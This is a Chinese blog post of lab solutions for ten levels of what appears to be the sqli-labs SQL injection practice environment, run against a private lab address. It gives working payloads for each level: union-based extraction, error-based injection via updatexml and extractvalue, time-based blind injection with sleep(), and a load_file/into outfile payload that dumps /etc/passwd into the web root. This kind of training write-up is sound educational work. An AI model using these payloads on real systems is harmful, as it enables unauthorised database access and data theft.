 ```yaml
---
layout: post
title: SQL闯关1-10
date: 2018-10-30
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```

### 第一题：

 - 第一题是萌新题目。啥子都没有过滤。就可以直接注出来(我自己是到文件中显示了SQL语句)可以看的到十单引号闭合
 - 那么就直接使用 order by 猜解字段数量, 猜解字段数量的时候建议使用二分法来进行猜解
 - Payload：SELECT * FROM users WHERE id = ‘1’ order by 3 — b ‘ LIMIT 0,1
 - 猜解出来了三个字段。接着使用union 来进行确认回显的位置(需要前面查询不到数据)
 - Payload：SELECT * FROM users WHERE id='1123' union select 1,2,3 -- b' LIMIT 0,1
 - 接下来就可以使用information_schema数据库来进行查找我们需要的数据了
 - 查询处用户是谁。还有数据库的名字
 - Payload: SELECT * FROM users WHERE id='1123' union select 1,user(),database() -- b' LIMIT 0,1
 - 使用不存在的变量,然后爆出数据名字
 - Payload：SELECT * FROM users WHERE id='11' union select 1,a(),3 -- b' LIMIT 0,1 
![iReT2T.png](https://s1.ax1x.com/2018/10/30/iReT2T.png)
 - 常用的一些mysql变量：
| name  | Effect |
| ------------- | ------------- |
| VERSION()  | 显示版本信息  |
| @@VERSION()  | 显示版本信息  |
| @@GLOBAL.VERSION()  | 显示版本信息  |
| User()  | 显示当前用户  |
| @@HOSTNAME  | 显示主机名  |
| System_user()  | 显示当前用户  |
| Current_user  | 显示当前用户  |
| Session_user()  | 显示当前用户  |
| Schema()  | 显示当前数据库  |

[![iRe7xU.png](https://s1.ax1x.com/2018/10/30/iRe7xU.png)](https://imgchr.com/i/iRe7xU)
 - 利用information进行查询处数据库
 - Payload：SELECT * FROM users WHERE id='11' union select null,table_name,null from information_schema.tables limit 0,1 -- b' LIMIT 0,1
 - 第一题就说完了。如果需要拿shell的话。是需要知道绝对路径的

### 第二题：

 - 第二题是int类型的注入。直接使用：payload：SELECT * FROM users WHERE id=123 union select 1,database(),3 -- b LIMIT 0,1
 - 直接跟上一个union 就爆出来了数据库名字
[![iReqr4.png](https://s1.ax1x.com/2018/10/30/iReqr4.png)](https://imgchr.com/i/iReqr4)

### 第三题：
 - 第三题是进行括号闭合。那么只需要使用括号闭合前面的就可以进行注入，因为没有其他的过滤
Payload：http://192.168.197.129/sql/Less-3/index.php?id=123') union select 1,database(),3 — b
 - SQL语句：SELECT * FROM users WHERE id=('123') union select 1,database(),3 -- b') LIMIT 0,1
[![iReLqJ.png](https://s1.ax1x.com/2018/10/30/iReLqJ.png)](https://imgchr.com/i/iReLqJ)

### 第四题：
 - 第四题看了下SQL语句发现就是双引号加上了括号闭合
 - payload：http://192.168.197.129/sql/Less-4/index.php?id=123") union select 1,database(),3 -- b
 - SQL语句：SELECT * FROM users WHERE id=("123") union select 1,database(),3 -- b") LIMIT 0,1
![iReXZ9.png](https://s1.ax1x.com/2018/10/30/iReXZ9.png)

### 第五题：
 - 第五题是一个盲注。没有回显的那种。我使用的方法就是查询一个不存在的变量。然后就爆出了数据库名称
但是这种方法就显的有点鸡肋了。我就使用了updatexml这个函数来进行注入
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b
 - SQL语句：SELECT * FROM users WHERE id='123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b' LIMIT 0,1
![iRmPMD.png](https://s1.ax1x.com/2018/10/30/iRmPMD.png)
 - 还可以利用extractvalue来进行注入。 其中updatexml只能够返回32为数据 结合substr能够达到很好的效果
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b
 - SQL语句：SELECT * FROM users WHERE id='121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b' LIMIT 0,1
![iRmFqH.png](https://s1.ax1x.com/2018/10/30/iRmFqH.png)

### 第六题：
 - 第六题同样也就是盲注。相比于上一题也就是使用的双引号闭合
 - payload：http://192.168.197.129/sql/Less-6/index.php?id=1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- hacker
 - SQL：SELECT * FROM users WHERE id="1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b" LIMIT 0,1
![iRmEdA.png](https://s1.ax1x.com/2018/10/30/iRmEdA.png)

### 第七题：
 - 第七题是需要插入文件。可以直接使用outfile这个函数来进行注入
 - 在离表哥哪里学习到了一个骚姿势。就是配合load_file函数就可以达到把主机上的文件任意读取
 - payload：http://192.168.197.129/sql/Less-7/index.php?id=112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack
 - SQL语句：SELECT * FROM users WHERE id=(('112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack')) LIMIT 0,1
![iRmmJP.png](https://s1.ax1x.com/2018/10/30/iRmmJP.png)

### 第八题：
 - 同样是盲注。只不过用不了报错注入。因为不会提示错误信息。但是返回还是有正确的和错误的。所以还是能够使用时间注入来进行注入的
 - 我自己是使用的时间注入来进行测试的（也是能够使用盲注if）
 - Payload：http://192.168.197.129/sql/Less-8/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL：SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRmlLQ.png](https://s1.ax1x.com/2018/10/30/iRmlLQ.png)

### 第九题：
 - 这一题就必须使用时间注入了。因为我查看了源代码发现了。真和否返回的结果都是一样的。所以只能够基于时间来进行注入。也是单引号闭合,直接使用上一题的payload就可以了
 - Payload:http://192.168.197.129/sql/Less-9/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL:SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRm8ds.png](https://s1.ax1x.com/2018/10/30/iRm8ds.png)

### 第十题：
 - 这一题就是双引号闭合。同样的也是使用时间注入.
 - Payload:http://192.168.197.129/sql/Less-10/index.php?id=12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) — hcaker
 - SQL:SELECT * FROM users WHERE id="12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) -- hcaker" LIMIT 0,1
![iRmYiq.png](https://s1.ax1x.com/2018/10/30/iRmYiq.png)

#### 剩下的尽快补上。。。。。。

![](https://app.yinxiang.com/shard/s46/res/37df04d7-120e-404e-b542-aadba914b39b.png)
